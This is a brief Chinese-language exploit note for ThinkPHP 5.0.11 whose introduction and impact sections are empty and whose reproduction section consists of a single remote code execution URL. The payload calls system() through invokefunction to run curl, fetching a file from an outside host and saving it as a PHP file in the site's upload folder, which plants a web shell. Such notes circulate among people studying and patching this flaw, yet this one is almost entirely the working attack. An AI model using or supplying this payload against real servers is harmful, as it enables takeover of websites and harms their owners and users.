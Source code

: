 # Thinkphp 5.0.11

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程


```
http://url/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=curl https://www.hack.com/xxx.js -o ./upload/xxx.php
```